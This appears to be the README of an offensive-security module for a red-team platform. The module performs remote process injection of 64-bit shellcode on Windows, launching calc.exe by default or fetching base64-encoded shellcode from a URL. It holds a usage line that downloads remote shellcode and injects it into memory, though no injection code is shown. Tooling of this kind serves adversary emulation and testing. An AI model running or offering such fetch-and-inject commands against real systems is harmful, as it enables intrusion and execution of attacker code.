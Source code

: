 # Simple Processs Injection

Performs a simple remote process injection of 64-bit shellcode. Windows calc.exe will run by default or URL parameter can point to base64 encoded custom shellcode file. 

## Credits and References

Author: Joff Thyer

Operating System(s): Windows

## Installation

Please reference our module [installation guide](https://github.com/scythe-io/community-modules/wiki) on the wiki.

##  Manual

```
usage: process_inject_method1 [-h] [-u URL]
Inject shellcode into memory
optional arguments:
  -h, --help         show this help message and exit
  -u URL, --url URL  URL to GET base64 encoded shellcode from
rivergumsecurity.process_inject_method1 --url <shellcode URL>
```

## FAQ:

No questions yet!
